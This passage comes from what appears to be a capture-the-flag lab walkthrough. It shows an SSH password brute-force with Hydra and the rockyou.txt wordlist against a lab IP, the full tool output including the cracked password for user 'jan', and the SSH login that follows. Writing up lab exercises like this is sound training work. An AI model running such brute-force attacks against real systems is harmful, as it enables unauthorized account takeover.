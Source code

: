 # Vulnerability Exploitation
> Brute Forcing Using Hydra
13. `hydra -l {USER2} -P {WORDLIST PATH} ssh//{TARGET IP}` to try to guess the SSH password of the second user that we found in the target's system using the famous **rockyou.txt** wordlist, which ended up working and displaying their password onto our terminal
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l jan -P rockyou.txt ssh://10.10.254.39
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-27 16:08:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.254.39:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344244 to do in 1532:31h, 14 active
[STATUS] 107.67 tries/min, 323 tries in 00:03h, 14344077 to do in 2220:27h, 14 active
[STATUS] 102.00 tries/min, 714 tries in 00:07h, 14343686 to do in 2343:45h, 14 active
[22][ssh] host: 10.10.254.39   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-06-27 16:16:39
```

#
> Connecting Through SSH
14. `ssh {USER2}@{TARGET IP} -p 22` to connect to the target through SSH using the new set of credentials that we now have
```bash
┌──(kali㉿kali)-[~]
└─$ ssh jan@10.10.254.39 -p 22    
The authenticity of host '10.10.254.39 (10.10.254.39)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.254.39' (ED25519) to the list of known hosts.
jan@10.10.254.39's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


```